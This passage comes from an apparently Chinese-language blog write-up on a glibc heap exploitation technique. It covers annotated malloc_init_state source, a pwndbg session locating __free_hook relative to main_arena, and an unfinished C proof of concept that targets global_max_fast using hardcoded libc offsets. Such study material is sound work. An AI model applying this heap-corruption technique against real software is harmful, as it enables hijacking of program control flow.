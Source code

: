 ```c
        //设置fastbin中最大chunk大小
        //只要该全局变量的值非0,也就意味着主分配区初始化了
    av->flags |= FASTCHUNKS_BIT;
    //标识此时分配区无fastbin
    av->top = initial_top (av);
    //#define initial_top(M) (unsorted_chunks(M))
    //#define unsorted_chunks(M) (bin_at(M, 1))
    //#define bin_at(m, i) (mbinptr)(((char *) &((m)->bins[((i) - 1) * 2])) - offsetof (struct malloc_chunk, fd))
    //暂时把top chunk初始化为unsort chunk,仅仅是初始化一个值而已,这个chunk的内容肯定不能用于top chunk来分配内存,主要原因是top chunk不属于任何bin,但ptmalloc中的一些check代码可能需要top chunk属于一个合法的bin
}

```
此时 top chunk 的地址为 &av->bins[0] - 0x10 ，且 size 为之前的 last_remainder 的值(通常来说堆指针都会很大)，只要不断 malloc ，就可以分配到 hook 指针。（__free_hook在main_arena下面）

```bash
pwndbg> p &__free_hook
$3 = (void (**)(void *, const void *)) 0x7f03bc36d8a8 <__free_hook>
pwndbg> p &main_arena
$4 = (struct malloc_state *) 0x7f03bc36bc20 <main_arena>

```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2d7b2ce6429f44c093a32df14c07b8ba.png)
glibc-2.27 开始 malloc_consolidate 不再调用 malloc_init_state ，该方法失效。

## poc

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <stdio.h>
#include <stdlib.h>

size_t getlibc()
{
    puts("getlibc");
    size_t libc_addr=puts-0x6d640;
    size_t global_max_fast=libc_addr+0x3ad8f0;
    return global_max_fast;
}

int main()
{   
    setvbuf(stdout, NULL, _IONBF, 0);  
    size_t* chunk1=malloc(0x500);
    malloc(0x20);
    free(chunk1);
    malloc(0x200); // after split is in smallbin range so become last_remainder
    size_t* global_max_fast=getlibc();

    size_t* fastchunk[0x10];
    for(int i=1;i<=8;i++)
    {
        fastchunk[i]=malloc(0x10);
        
    }
    malloc(0x10); //padding
     for(int i=1;i<=8;i++)
    {
```